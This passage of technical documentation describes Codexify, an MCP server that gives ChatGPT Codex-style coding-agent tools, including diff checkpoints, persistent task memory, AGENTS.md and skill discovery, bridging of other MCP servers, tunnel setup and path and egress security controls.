Per-conversation separation extends to saved state: with an explicit `memory.dir`, each selected project gets its own hashed child directory (see the [`memory` block](#config-file)), and conversation bindings stay enabled even when `memory.enabled` is `false`. The end-to-end onboarding flow — select, then request the brief — is in [Starting a chat](#starting-a-chat).

To clear a stray binding, delete its file under `~/.codexify/conversation-projects/`; there is no tool to re-point an already-bound conversation. A managed worktree remains referenced while that binding exists. Startup cleanup skips referenced or dirty worktrees and only removes older clean, unreferenced entries beyond `keepCount`.

## Diff checkpoints and ChatGPT UI

Diff state is initialized immediately before the first project-scoped tool call for a conversation or generic MCP transport. That timing captures the checkout as the agent first sees it, before a write, formatter, generator, or shell command can change it. Mutating tool calls and `show_diff` are serialized for the same owner and project through tool completion, so the incremental cursor cannot advance over a partially completed write. A resident `exec_command` process may continue changing files after its initiating call returns, so every diff remains a point-in-time snapshot. Non-Git projects remain usable; inside a Git worktree, a snapshot failure blocks mutating tools rather than silently losing the baseline. Two baselines are maintained:

- **project open** is immutable and shows the complete task diff;
- **last diff** records the most recent snapshot emitted by `show_diff`, so the next default diff is incremental.

`show_diff` accepts `since: "last_diff" | "project_open"`, `advance`, and `include_patch`. By default it records the emitted snapshot as the next incremental baseline; `advance=false` leaves that cursor unchanged. This bookkeeping is connector-private: the tool remains annotated read-only because it does not modify project files, Git history, user-owned data, or external systems. The ordinary model-visible diff result is a concise aggregate summary and deliberately has no `structuredContent`. Compatible MCP Apps receive bounded file records, rename sources, binary markers, warnings, and the complete unified binary patch through namespaced result `_meta`, which ChatGPT forwards to the component without adding it to model context. Oversized patches are omitted explicitly rather than returned as invalid partial hunks.

Snapshots use Git objects, but they do **not** touch the real index or working tree. Codexify builds a private temporary index containing only the logical project root, then carries the same literal pathspec through every comparison. If the selected project is `packages/app` inside a monorepo, sibling changes under `packages/other` cannot enter its checkpoint or diff. Paths in the component-only diff payload are relative to the selected project, not the repository root.

With ChatGPT's stable `_meta["openai/session"]`, each conversation/project scope stores exactly two namespaced refs under:

```text
refs/codexify/diff/<project-hash>/<conversation-hash>/project-open
refs/codexify/diff/<project-hash>/<conversation-hash>/last-diff
```

The raw conversation identifier is never written. The refs survive MCP reconnects and Codexify restarts. Generic MCP clients receive transport-local in-memory checkpoints instead. Each conversation/project pair retains only its current two referenced snapshots; unreferenced synthetic commits are ordinary Git-GC candidates. To inspect or remove current refs manually, use `git for-each-ref refs/codexify/diff/` and `git update-ref -d <ref>`. Removing both refs resets that owner to the current scoped state on its next project call. Existing `refs/codexify/review/.../project-open` and `.../last-review` refs are copied lazily into the diff namespace and retained so installations from the current review-named surface keep their checkpoints.

Codexify advertises the standard MCP Apps extension and serves a self-contained diff resource at `ui://codexify/diff/v3/mcp-app.html`. Compatible ChatGPT developer connectors render `show_diff` as the interactive GitHub-style file/statistic/patch card from component-only result metadata; the component is model-visible but is not granted app-side tool access. Other clients receive the concise text result. Existing review metadata and the v3, v2, and unversioned `ui://codexify/review/...` resources remain readable so existing cards can remount, while current `show_diff` results emit only the diff-named metadata. Expansion state is persisted as private widget state, including migration of `reviewOpen` to `diffOpen`. Cursor advancement completes before the result is returned and never waits for widget interaction, and the card updates at the `show_diff` tool-call boundary rather than continuously watching the filesystem.

## Context and memory

Codexify bounds model-visible tool output and persists task state so long-running work can continue across context limits and conversations.

**Spend the window on less.** Every non-self-managed tool result passes through a 10,000-token model-output ceiling by default. The policy covers both textual `content` and model-visible `structuredContent`; component-only result `_meta` remains outside model context. File and list tools stop at their semantic paging boundaries and name the argument that continues from where they stopped:

```
(showing lines 1-1000 of 4820 — call again with offset=1000 for the rest)
```

That line matters as much as the cap. Silent truncation reads as "that was the whole file", which is worse than no cap at all. `read_file` has a byte ceiling as well as a line one, because a minified bundle is a single line several megabytes long that a line cap alone would hand back in full. `grep` additionally caps context, match count and individual lines while preserving the actual match inside a long minified line. `exec_command` and `write_stdin` keep Codex's 10,000-token default but clamp larger requests to server policy. Oversized arbitrary `structuredContent` becomes a bounded error requesting narrower arguments rather than invalid partial JSON.

**Keep what would be expensive to rediscover.** `remember` creates one keyed note and refuses an existing key; `update_memory_note` replaces an existing note without creating a missing key; `forget_memory_note` deletes an existing note; `recall` hands back the notes and the current plan. `update_plan` persists too, so the plan survives the conversation that made it. Separating creation, replacement, and deletion gives each operation an accurate safety classification and prevents an empty string from doubling as an implicit delete command.

Task state lives in `~/.codexify/projects/<name>-<hash>/memory.json`, keyed by the absolute active project root. Nothing is written into the repository you pointed the server at, and two checkouts of the same repo do not share notes. Multi-project conversations therefore share task state only when they select the same canonical project root.

ChatGPT project bindings live separately under `~/.codexify/conversation-projects/<access-root-hash>/<conversation-hash>.json`. The raw `openai/session` value is never written to disk; only its SHA-256-derived key is used as the filename. Each small record contains the canonical access root and selected project root. Delete this directory to forget all conversation bindings. A missing or stale project fails closed rather than silently rebinding the conversation to another directory.

In single-project mode, `instructions` is rebuilt for every MCP session, so a new conversation opens with the saved plan and notes already in front of it, under a `## Saved state` heading between the environment and `AGENTS.md`. In multi-project mode the initialize-time instructions deliberately remain project-neutral: ChatGPT supplies its stable conversation identifier on tool calls, after the MCP initialize exchange. Calling `get_agent_brief` restores an existing conversation binding automatically; for a new conversation it reports that `set_project_root` is required and directs the agent to `list_projects` when the exact path is unknown. After binding, `get_agent_brief` returns the environment, saved state, skills, and `AGENTS.md` for the selected project. If the client ignores `instructions`, one `recall` gets the same saved state after selection.

The division of labour is worth keeping straight: `AGENTS.md` is what is true of the **project** and belongs in the repo; notes are what is true of the **task in flight** and belong here.

## Acting as a Codex agent

A tool list says what a model *can* do; the server's `instructions` add the operating rules for how to use those tools. The agent brief is derived from `codex-rs/core/gpt-5.2-codex_prompt.md`.

That brief is what stops the client rewriting a file it never read, reverting your uncommitted work, reaching for `git reset --hard`, or making a one-step plan. It carries Codex's editing constraints (ASCII by default, comments only where they earn their place, `apply_patch` over rewrites, and the dirty-worktree rules in full), its planning rules, its code-review posture, and its habit of reporting back concisely without pasting files you already have on disk.

The `initialize` response layers these sources in precedence order:

1. **The agent brief** — how to behave.
2. **The environment** — OS, shell, work directory, command policy.
3. **Saved state** — the plan and notes left by earlier work, when there are any. See [Context and memory](#context-and-memory).
4. **The skill catalogue** — what this project and this user already know how to do, when any is installed. See [Skills](#skills).
5. **`AGENTS.md`** — the project speaking for itself, behind the `--- project-doc ---` marker.

CLI-renderer-specific prompt rules are omitted: search is already exposed through `grep`/`glob`, and MCP clients render their own markdown and file references.

### Starting a chat

`instructions` is the proper channel, but no client is obliged to show it to its model, and ChatGPT Web is not reliable about it. `get_agent_brief` returns the identical string, so one line is enough to onboard a conversation:

```
Call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

Everything else — the shell you're on, the allowlist, your repo's `AGENTS.md` — arrives with that one call. If a chat starts drifting back into generic-assistant behaviour, asking for the brief again re-anchors it.

For a new chat in multi-project mode with an exact path, select before requesting the brief:

```
Call set_project_root with path "my-project", then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

The path may be relative to the configured access root or absolute, but its canonical target must be an existing directory inside that root. The binding belongs to the ChatGPT conversation, not to the current HTTP/MCP transport, so simultaneous chats may select different projects and later turns recover their respective project roots after reconnects or server restarts. A conversation cannot switch roots after binding; start another chat for another project. Calling `set_project_root` again with the same canonical path is harmless.

An exact Git repository URL uses the same tool and clones only when no matching checkout exists:

```
Call set_project_root with path "https://github.com/owner/repository", then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

For non-GitHub providers, pass the clone URL ending in `.git`, for example
`https://gitlab.com/group/repository.git` or `git@gitlab.com:group/repository.git`.

To enter an exact branch, PR, or commit instead of the repository's default
checkout, pass the corresponding GitHub page URL unchanged, for example
`https://github.com/owner/repository/tree/split_db` or
`https://github.com/owner/repository/pull/886`. Commit URLs use the full object ID,
for example `https://github.com/owner/repository/commit/c8cae44bf004a6ac6bfc267c5dfe503d57652103`.

When the task names a project by intent rather than an exact path, let the agent search first:

```
Call list_projects with a query derived from the task. If exactly one candidate is unambiguous, pass its selector to set_project_root; otherwise ask me which project I mean. Then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

On a later turn in an already-bound chat, the path does not need to be repeated:

```
Call get_agent_brief and follow it for the rest of this task.

Task: <what you want done>
```

Only project identity is conversation-persistent. A live `exec_command` process and its numeric `session_id` remain tied to the current MCP transport and are deliberately discarded when that transport closes; stale process handles are not resurrected on a later follow-up.

## Shells and the host

Windows, macOS and Linux are supported natively. Which shell runs is decided by name, not by host platform:

| Shell | Invoked as |
|-------|------------|
| `sh`, `bash`, `zsh`, anything else | `<shell> -c "<cmd>"` |
| `powershell`, `pwsh` | `<shell> -NoProfile -Command "<cmd>"` |
| `cmd` | `cmd /c "<cmd>"` |

The default comes from `$SHELL` on every platform, so starting the server from Git Bash on Windows gets bash — with real `ls -la`, pipes and `$VAR` — rather than PowerShell. Set `exec.defaultShell` to override, or pass `shell` on an individual `exec_command` call.

Two Windows-specific details are handled: `powershell -Command` collapses every non-zero child exit code to `1`, so commands are wrapped to re-raise `$LASTEXITCODE`; and `exec_command`'s description gains Codex's PowerShell rules (`-LiteralPath` over `-Path`, `-WindowStyle Hidden`) when the server runs there.

Because the resolved shell decides what a command should even look like, it is published three ways — a client only has to read one of them:

- **`instructions`** in the `initialize` response, as the Environment section of the [agent brief](#acting-as-a-codex-agent).
- **`exec_command`'s description**, which names the actual shell binary and its syntax family.
- **`get_environment`**, for clients that read neither.

## AGENTS.md

A project's `AGENTS.md` tells the agent its conventions — which test command to run, which files not to touch, how commits should look. Codexify discovers it using the algorithm from `codex-rs/core/src/agents_md.rs`.

In single-project mode, discovery walks up from `--work-dir` to the nearest directory holding a **root marker** (`.git` by default), then collects **one doc per directory on the way back down**, so a monorepo's root conventions arrive before the ones belonging to the subdirectory you pointed the server at. In multi-project mode the selected directory is treated as the exact project root and discovery never reads an access-root parent, preventing instructions from one sibling project or the common parent from leaking into another session. In each directory considered, `AGENTS.override.md` wins over `AGENTS.md`, which wins over anything in `projectDoc.fallbackFilenames`. The files are concatenated outermost-first under a **shared 32 KiB budget**, counted in bytes rather than characters; a file that runs past what is left is cut there and reported as truncated, and whitespace-only files are skipped without spending any of it. If no marker is found anywhere above in single-project mode, only the work directory itself is checked.

Like the environment, the result is published more than one way:

- **`instructions`** carries the doc inline, behind Codex's own `--- project-doc ---` separator. Everything past that marker is the project speaking, and it outranks the [agent brief](#acting-as-a-codex-agent) above it.
- **`get_project_doc`** returns the identical text for clients that never read `instructions`, along with the absolute path of every file it came from and whether each was truncated.

Instructions are built per MCP session, so editing `AGENTS.md` takes effect on the next connection without restarting the server.

## Skills

`AGENTS.md` says what is true of the project always. A **skill** says how to do one recurring task well — cut a release, review a PR the way this team reviews PRs, debug the flaky suite — and is only read when that task comes up. Codexify uses the `SKILL.md` format and discovery model from `codex-rs/ext/skills` and `codex-rs/skills`.

A skill is a directory holding a `SKILL.md` whose YAML frontmatter names it and says when it applies:

```
.agents/skills/
└── release/
    ├── SKILL.md
    ├── references/versioning.md
    └── scripts/tag.sh
```

```markdown
---
name: release
description: Cut and publish a release of this project
---

1. Check `cargo test` and `cargo clippy` are clean.
2. Bump the version in `Cargo.toml`.
3. Run `scripts/tag.sh`; see `references/versioning.md` for what the tag must look like.
```

`description` is required — it is the only thing the model sees before deciding whether the skill is worth reading. `name` defaults to the directory name. `metadata.short-description` is optional. A skill whose frontmatter cannot be used is reported by `skills_list` rather than silently dropped, because the author meant it to be there.

**Where they are found**, in precedence order:

| Scope | Directories |
|-------|-------------|
| `repo` | `.agents/skills`, `.codex/skills` and `.claude/skills`, in every directory from the project root down to the active work directory; in multi-project mode the selected directory is the exact project root |
| `user` | `~/.agents/skills`, `~/.codex/skills` and `~/.claude/skills`, or whatever `skills.dirs` names instead |
| `plugin` | Enabled installed **OpenAI Codex plugin** skills under the active `~/.codex/plugins/cache/<marketplace>/<plugin>/<version>` package, plus installed **Claude Code plugin** skills under `~/.claude/plugins/cache/<marketplace>/<plugin>/<version>/skills/*` |

Repo skills come first, so a project decides how a name behaves inside it; a personal skill of the same name is shadowed and `skills_list` says so rather than merging the two.

**Plugin skills.** Codexify mirrors Codex's local plugin-skill discovery. It reads enabled `[plugins."<plugin>@<marketplace>"]` entries from the Codex user `config.toml`, resolves the same active cache version (`local` wins; otherwise Codex's semver/lexical ordering), and reads the plugin manifest rather than assuming every cache entry has a `skills/` directory. Legacy manifests can declare one or more skill roots and are searched recursively; current Agent Plugin manifests use the conventional direct-child `skills/` layout. Legacy migrated-command skills are included too, and `[[skills.config]]` name/path disable rules are honored. Plugin skills use the manifest namespace as `<plugin>:<skill>`. Codexify also retains compatible Claude Code plugin discovery, using the highest installed Claude plugin version. Turn all plugin-skill discovery off with `"skills": { "includePlugins": false }`. Setting `skills.dirs` overrides the standalone roots and, by default, disables plugin discovery too — set `includePlugins: true` alongside `dirs` to keep it.

**What the model sees.** The catalogue — a name and a description per skill — goes into the project-aware brief under a `## Skills` heading. In single-project mode that is available at initialization; in multi-project mode it arrives from `get_agent_brief` after selection. Bodies are not loaded: `skills_read` fetches one only once a skill has actually been chosen. That is the progressive disclosure that makes a large library affordable on a small context window. The section is omitted entirely when nothing is installed.

**Reaching the rest of a package.** Reference files, scripts and assets are read with `skills_read` and the skill's name, passing the file's path as `resource`. `read_file` will not do: it is confined to the active project root, and user- and plugin-scope skills live in your home directory. Paths inside a skill are relative to the skill's own directory, and a `resource` that tries to leave it is rejected — so the only thing this opens up is the inside of a skill you or the project deliberately installed. Reading a `SKILL.md` lists the package's other files, since the model cannot glob a directory it cannot see.

Discovery runs per MCP session, so adding a skill takes effect on the next connection without restarting the server. Set `skills.enabled` to `false` to turn the whole thing off.

## Bridging other MCP servers

Codexify can also act as an **MCP aggregator**: it connects to local stdio or remote Streamable HTTP MCP servers as a client and materializes their complete paginated `tools/list` catalogues at startup. Catalogue ownership and model exposure are separate. A server can keep its transitive tools private behind a fixed progressive-disclosure surface, expose each tool directly, or use a one-tool gateway.

### Exposure modes and defaults

| `mode` | Default provenance | Downstream exposure |
|--------|--------------------|---------------------|
| `"catalog"` | Servers automatically imported from Codex `config.toml` or the Codex CLI/plugin catalogue | The complete filtered catalogue stays private. All catalog-mode sources share four fixed tools: `mcp_list_sources`, `mcp_search_tools`, `mcp_get_tool`, and `mcp_call_tool` |
| `"direct"` | A standalone entry declared only in `codexify.config.json.mcpServers` | Every selected upstream tool becomes `<server>__<tool>` |
| `"gateway"` | Never implicit; explicit opt-in only | The server becomes one `{ function, arguments }` dispatcher plus a generated skill containing every function schema |

The default is based on **provenance**, not a tool-count threshold. Automatically imported Codex/plugin servers use catalog mode even when they expose only a few tools. Standalone explicit entries use direct mode by default. An explicit entry that overlays an imported server inherits that imported provenance; set `mode` in the overlay to choose another exposure.

To expose every imported tool directly:

```json
{
  "mcpServers": {
    "idasql": { "mode": "direct" }
  }
}
```

To keep a standalone explicit server out of the connector capability catalogue:

```json
{
  "mcpServers": {
    "remote-docs": {
      "url": "https://mcp.example.com/mcp",
      "mode": "catalog"
    }
  }
}
```

`tools` and `disabledTools` are applied to raw upstream tool names before any mode is materialized. The fixed catalog tools and every direct/gateway proxy are project-independent: they remain callable before project selection in multi-project mode, subject to any configured conversation-authorization gate.

### Automatic discovery from Codex

Codexify reads `$CODEX_HOME/config.toml` when `CODEX_HOME` is set, otherwise `~/.codex/config.toml`. The file is read only. This parser imports user-configured MCP servers without requiring a `codex` executable. MCP-server import does not apply Codex's project-local configuration layers or project trust decisions; [project catalogue discovery](#project-catalogue-semantics) is a separate consumer of the same user-level file.

For each `[mcp_servers.<name>]` entry, Codexify imports the fields it can preserve:

- `command`, `args`, `env` and `cwd` for local stdio launch;
- local `env_vars`, resolved from Codexify's process environment;
- `url` for Streamable HTTP;
- `bearer_token_env_var`, `http_headers`, and `env_http_headers` for HTTP authentication and request headers;
- `startup_timeout_sec`, `startup_timeout_ms`, and `tool_timeout_sec`;
- `enabled = false` as a disabled upstream;
- `enabled_tools` as an allow-list and `disabled_tools` as a deny-list applied afterwards.

By default, Codexify also tries `codex mcp list --json`. Servers present in Codex's effective catalogue but absent from `config.toml` are fetched with `codex mcp get <name> --json` so plugin-provided enablement and tool allow/deny lists are preserved. The executable is selected from `codexMcp.cliPath`, then `CODEX_CLI_PATH`, then `codex` on `PATH`. Each invocation is bounded to 30 seconds and 4 MiB of stdout, and its JSON is parsed in memory without logging literal environment values. Both directly parsed and CLI/plugin imports carry imported provenance and therefore default to catalog exposure.

When the CLI is missing, fails, times out, or returns incompatible JSON, normal startup continues with the direct `config.toml` result and prints a warning that plugin-provided MCP servers may be missing. Pass `--codex-cli` to make successful CLI discovery mandatory instead; the same condition then becomes a startup error. Set `"codexMcp": { "useCli": false }` to suppress CLI invocation while retaining direct config parsing.

Non-local execution environments are unsupported: Codexify itself opens the HTTP connection and cannot delegate header resolution or stdio launch into a Codex executor. `http_headers_helper` is also unsupported. Other Codex-only fields are ignored explicitly: the startup report names those fields, but never prints header values, environment values, or bearer tokens. A missing or unreadable Codex config does not prevent CLI-discovered or explicitly declared `codexify.config.json` servers from loading.

Disable discovery while retaining explicit upstreams with:

```json
{
  "codexMcp": { "enabled": false },
  "mcpServers": {}
}
```

To keep direct Codex config import but never start the Codex CLI:

```json
{
  "codexMcp": { "enabled": true, "useCli": false }
}
```

### Explicit servers and overrides

The `mcpServers` map in `codexify.config.json` declares explicit upstream servers. A local entry is a stdio command that Codexify launches and drives over stdin/stdout. A standalone entry with no `mode` uses direct exposure:

```json
{
  "mcpServers": {
    "idasql": {
      "command": "idasql-mcp",
      "args": ["--stdio"],
      "env": { "IDA_PATH": "C:/Program Files/IDA" }
    }
  }
}
```

A remote entry uses MCP Streamable HTTP. Secret values should come from environment variables rather than the JSON file:

```json
{
  "mcpServers": {
    "remote-docs": {
      "url": "https://mcp.example.com/mcp",
      "bearerTokenEnvVar": "REMOTE_MCP_TOKEN",
      "httpHeaders": {
        "X-Client": "codexify"
      },
      "envHttpHeaders": {
        "X-Tenant": "REMOTE_MCP_TENANT"
      },
      "startupTimeoutSec": 20,
      "toolTimeoutSec": 60
    }
  }
}
```

`bearerTokenEnvVar` is required to exist and be non-empty when configured. Missing or empty values referenced by `envHttpHeaders` are omitted, matching Codex. Environment-backed headers override a same-named static header. Do not configure both `bearerTokenEnvVar` and an `Authorization` entry in `httpHeaders`/`envHttpHeaders`.

An explicit entry with the same name as an imported Codex server is a field-by-field overlay. That makes Codex-specific launch settings reusable while adding bridge-only settings without copying the command, arguments or environment:

```json
{
  "mcpServers": {
    "remote-exec": {
      "mode": "gateway",
      "tools": ["exec", "machine_list"]
    }
  }
}
```

Set an empty array or object to replace an imported collection with an empty one. Explicit `command` and `url` fields replace the imported transport rather than producing a mixed configuration.

At startup you'll see, e.g.:

```
Codex MCP config discovery: /home/user/.codex/config.toml
  idasql -> imported from Codex config
Codex CLI MCP discovery: codex
  idalib -> imported from Codex CLI (not present in config.toml)
Codex MCP overrides:
  remote-exec -> imported fields overlaid by codexify.config.json
Tools loaded (36): 32 native + 4 upstream-facing MCP tools
Upstream MCP servers:
  idalib      -> catalog (66 private tool(s))
  idasql      -> catalog (12 private tool(s))
  remote-exec -> gateway (2 functions via `remote_exec`)
```

An upstream that fails to launch, connect, authenticate, or answer is skipped; it never blocks startup or the native tools. Every configured server is reported, so a bad path or failed handshake is not silent.

### Catalog mode (default for automatic imports)

Catalog mode keeps every filtered upstream definition private while downstream `tools/list` receives only a small fixed surface:

| Tool | Contract |
|------|----------|
| `mcp_list_sources` | List or filter catalog-mode systems. Results include a unique model-facing source ID, the raw configured server name, provenance, transport, tool count, upstream implementation metadata, and initialization instructions when supplied |
| `mcp_search_tools` | BM25-ranked full-text search over source/server metadata, model-facing and raw tool names, title, description, and recursively useful input/output-schema property names, descriptions, required names, and enum values. It can be restricted to one source ID |
| `mcp_get_tool` | Return one exact upstream tool definition, including its separate model-facing ID and raw name, title, description, input/output schemas, annotations, icons, and `_meta` |
| `mcp_call_tool` | Invoke the selected source/tool ID with an `arguments` object. Dispatch resolves the original server and raw tool name exactly |

A typical agent flow is `mcp_list_sources` once when it needs to learn the available systems, `mcp_search_tools` with task-specific terminology, `mcp_get_tool` for the selected match when its exact schema or side-effect metadata matters, then `mcp_call_tool`. Search returns compact summaries rather than every schema, so a 66-tool IDA server contributes only these four fixed connector capabilities.

Model-facing IDs are sanitized and collision-disambiguated independently from raw names. The raw server/tool strings are never reconstructed from those IDs; dispatch uses the stored originals. This matters for names such as `rename-function` and `rename_function`, which can normalize to the same identifier but remain distinct upstream calls.

Forwarded calls preserve upstream text blocks, images, structured content, the tool-error flag, and result `_meta`. Configured tool timeouts use RMCP cancellable requests, and cancellation of the downstream ChatGPT/MCP request is forwarded upstream. Unsupported content-block variants are retained through the existing JSON-text fallback rather than discarded.

The generic dispatcher cannot reproduce the selected upstream tool's host-level approval semantics in ChatGPT because its downstream annotations are fixed before `source` and `tool` are known. `mcp_call_tool` therefore advertises conservative potentially-destructive/open-world hints. The agent can inspect the selected tool's exact annotations through `mcp_get_tool`, but the connector host still approves the generic dispatcher as one capability. Use direct mode when per-tool connector annotations and approval boundaries are required.

The private catalogue is a startup snapshot. Dynamic upstream `tools/list_changed` notifications are not projected into the fixed surface; restart Codexify to rematerialize a changed catalogue.

### Direct mode

With `"mode": "direct"`, each upstream tool becomes a `BridgedTool` named `<server>__<tool>` (sanitized to `[A-Za-z0-9_]`, so `remote-exec` becomes `remote_exec__exec`). Calls use the tool's stored **raw upstream name**, not the downstream identifier. Input/output schemas, title, icons, `_meta`, and every upstream annotation field are preserved in downstream `tools/list`; omitted safety hints are materialized with MCP defaults so the descriptor is complete. Text, images, structured content, error state, and result metadata pass through on calls. A downstream name colliding with a native or already registered tool is skipped with a warning.

Direct mode places every selected schema in the connector capability catalogue. Use `tools`/`disabledTools` to curate it when full exposure is unnecessary.

### Gateway mode

**`mode: "gateway"`** exposes a whole server as one dispatcher tool plus a generated skill.

```json
{
  "mcpServers": {
    "remote-exec": {
      "mode": "gateway"
    }
  }
}
```

For an upstream imported from Codex, the overlay alone is sufficient; an upstream declared only in `codexify.config.json` also needs its launch fields. Gateway mode registers one sanitized tool named `remote_exec` taking `{ "function": "<name>", "arguments": { ... } }`, and generates a skill (`skills_read name="remote-exec"`) documenting every raw function and argument schema. An 84-tool server therefore shows up as one tool plus one skill. This mode does not provide ranked search, exact per-tool metadata retrieval, or per-tool connector approval semantics; catalog mode provides those capabilities with the same compact connector surface.

### Common transport and filtering behavior

- `disabled: true` keeps an entry configured but skips it (reported as `-> disabled`).
- `tools: ["exec", "machine_list", ...]` is an allow-list over raw upstream names.
- `disabledTools: ["dangerous_write", ...]` removes tools after the allow-list.
- `cwd` selects a stdio child process's working directory.
- `startupTimeoutSec` bounds initialization plus complete paginated `tools/list`; the default is 20 seconds.
- `toolTimeoutSec` bounds each forwarded call and sends MCP cancellation when the limit expires.
- `type` is inferred: `command` means `"stdio"`, while `url` means Streamable HTTP. Explicit HTTP aliases `"http"`, `"streamable-http"`, and `"streamable_http"` are accepted.
- SSE and WebSocket transports are rejected; supported upstream transports are stdio and Streamable HTTP.

OAuth authorization-code login and credential persistence are not implemented by this bridge. An OAuth-protected upstream must therefore be supplied a usable bearer token through `bearerTokenEnvVar` or an environment-backed `Authorization` header. Resource links returned by bridged tools are proxied in direct, gateway, and catalog modes: Codexify replaces the upstream URI with a short-lived random `codexify://upstream-resource/...` capability, and a downstream `resources/read` is forwarded to the originating upstream peer with caller cancellation and the configured egress size/TTL/reference bounds. The downstream link and returned `ResourceContents.uri` fields use only the opaque Codexify capability rather than the upstream routing URI. Upstream `resources/list`, resource templates, prompts, and subscriptions are not otherwise aggregated. Catalog mode reports upstream initialization instructions as source metadata, but does not inject them into Codexify's own initialization instructions.

If your server doesn't show up, **check the banner first** — the most common cause is a wrong `command` path.

## Connecting to ChatGPT

### With the native OpenAI tunnel

1. In ChatGPT, enable **Developer mode**.
2. Configure `openaiTunnel`, export the referenced runtime key, and start Codexify. Keep the process running for connector discovery and every tool call.
3. In ChatGPT's connector/plugin settings, create a developer-mode connector with **Connection type: Tunnel**.
4. Select the same tunnel ID that Codexify reports as ready. Set **Authentication** to **None**.
5. Set the connector's permissions to **Allow all actions** if you do not want per-call confirmations.
6. Enable the connector in a new chat. Without conversation authorization, open with `Call get_agent_brief and follow it for the rest of this chat.` With `conversationAuthToken`, first supply the one-line `setup` instruction from [Optional per-conversation authorization](#optional-per-conversation-authorization); after authorization succeeds, follow its project-selection or `get_agent_brief` direction. In multi-project mode (`--multi-project`), call `set_project_root` first when an exact path, HTTPS/SSH `.git` repository URL, or supported GitHub repository, branch, pull-request, or commit URL is known, or `list_projects` first when only the local project identity is known; later follow-ups in that same chat recover both authorization and the project binding from ChatGPT's conversation metadata.

There is no server URL to enter in this mode. OpenAI routes the selected tunnel to the supervised client, which supplies Codexify's generated per-process bearer on the local hop. The startup banner prints the runtime-only `/readyz` and `/metrics` URLs. It does not advertise an admin UI because `tunnel-client-runtime` deliberately omits that full-client surface.

### With an externally managed tunnel

1. Start Codexify without `openaiTunnel` (add `--work-dir /path/to/projects --multi-project` for one connector shared across projects).
2. Put an authenticated reverse proxy or tunnel in front of port `3000`.
3. Create a URL-based developer connector/plugin whose server URL is the resulting HTTPS URL with `/mcp` appended.
4. Configure the connector authentication supported by the client, and enforce access controls at the proxy/tunnel layer.

For example, `ngrok http 3000` is sufficient for a disposable connectivity test, but an unprotected public URL is not an appropriate long-lived deployment. Use provider access policies, source restrictions, mTLS, OAuth, or another control appropriate to the deployment. The `--api-key` option is useful for MCP clients that can send a static bearer token; ChatGPT's connector authentication choices may not support that form directly.

## Host allowlist

Without `openaiTunnel`, `allowedHosts` is empty by default, which accepts any `Host` header so an externally managed proxy can present an arbitrary hostname. Set it to a list of hostnames to enable **DNS-rebinding protection**: only requests whose `Host` header matches are served.

Native tunnel mode ignores `allowedHosts` and forces the accepted authorities to `127.0.0.1`, `localhost`, and `::1`. It also binds only `127.0.0.1` and removes the permissive CORS layer. These restrictions are part of the mode rather than optional hardening.

## Security

- **Self-update is an explicit privileged operation**: `self_update` is advertised as destructive and open-world, requires `confirm=true`, and accepts only the standard installed executable. Downloads are bounded and SHA-256-verified against the selected GitHub release before any service interruption. The detached worker is a generated private file with fixed arguments; it retains a rollback executable until replacement validation and service restart complete.
- **Path traversal prevention**: every filesystem tool — including `apply_patch` and `view_image` — resolves paths through a guard that rejects anything outside the active project root. In multi-project mode, both catalogue discovery and `set_project_root` canonicalize the configured access root and candidate directory, so `..` and symlinks cannot expose or bind a project outside the access root.
- **Stable server-config authority**: the implicit config is user-scoped at `~/.codexify/codexify.config.json`, so changing the launch directory does not change command, MCP-server, network, tunnel, or worktree policy. `--config` and `CODEXIFY_CONFIG` are explicit overrides.
- **Bounded Git cloning and GitHub target fetching**: URL-based project selection accepts provider-agnostic HTTPS/SSH repository URLs ending in `.git`, plus GitHub repository roots and HTTPS branch, PR, and full commit URLs. Normalized remote identity lets conventional hosting-service SSH forms such as `git@host:group/repository.git` reuse their HTTPS checkout while keeping arbitrary SSH users and custom-port endpoints distinct. Credential-bearing HTTPS URLs, local/file transports, HTTP, `git://`, query strings, fragments, and unsupported GitHub subpages are rejected, and interactive Git credential prompts are disabled. The configured clone directory is canonicalized inside the access root at startup and revalidated at use time. Resolution uses per-repository cross-process locks, bounded subprocess timeouts, private temporary clone destinations, remote verification, exact GitHub branch/PR refspecs or full commit object IDs, and collision refusal. Existing source checkouts are fetched without moving `HEAD`; a conversation already bound to another selection is rejected before the network/disk side effect.
- **Host-authorized native-file ingress**: `import_host_file` accepts only ChatGPT's declared native-file object, rejects local source paths, constrains the download URL and every redirect hop to the configurable `artifactIngress.allowedHosts` allowlist (default `"*"`, which admits any public HTTPS host but never a loopback, private, link-local, unique-local, CGNAT, `localhost`, or metadata address), ignores ambient proxy credentials, and enforces whole-request, idle, size and concurrency limits. Its signed URL and file ID are never logged or returned: RMCP debug/trace payload logging is unconditionally suppressed even when `RUST_LOG` requests it. Destination publication uses a capability-confined directory handle, canonical-path and file-identity revalidation, a private partial file, SHA-256, and atomic no-overwrite linking so traversal, moved roots, symlink escapes, partial visibility and replacement races fail closed.
- **Bounded durable native-file egress**: `export_host_file` accepts only a relative regular-file path inside the active project, opens it through a capability-confined directory handle without following the final symlink/reparse point, rejects traversal and escapes, enforces `artifactEgress.maxFileBytes` before and during streaming, and returns an original SHA-256 receipt plus a standard MCP resource link. The link carries a random 256-bit opaque capability rather than a local path. A private versioned record survives service restarts; eligible immutable snapshots share a global per-user LRU disk budget controlled by `snapshotMaxFileBytes` and `maxSnapshotBytes`. After snapshot eviction, `fallbackToSource` can serve the latest safe file only after revalidating the recorded root and relative path. Audit output records only the number of resource links, never their capabilities or filenames.
- **Bounded transitive resource egress**: a `resource_link` returned by any bridged MCP tool is never passed downstream with its upstream URI. Codexify replaces it with a random 256-bit `codexify://upstream-resource/...` capability tied to that exact upstream peer and URI. `resources/read` forwards through the existing authenticated MCP transport, propagates downstream cancellation, applies the upstream tool timeout, enforces `artifactEgress.maxFileBytes` against advertised and actual content size, rewrites returned content URIs back to the opaque capability, and expires/evicts mappings according to the configured TTL/reference bounds.
- **One bounded exception in single-project mode**: [AGENTS.md](#agentsmd) discovery may read above `--work-dir`, up to the nearest `.git`. It is read-only, opens only `AGENTS.override.md`, `AGENTS.md` and any `projectDoc.fallbackFilenames`, and `get_project_doc` reports the absolute path of every file it used. Set `projectDoc.maxBytes` to `0` to switch it off, or `projectDoc.rootMarkers` to `[]` to keep the search inside the work directory. Multi-project mode does not perform this upward walk; its selected directory is the exact project root.
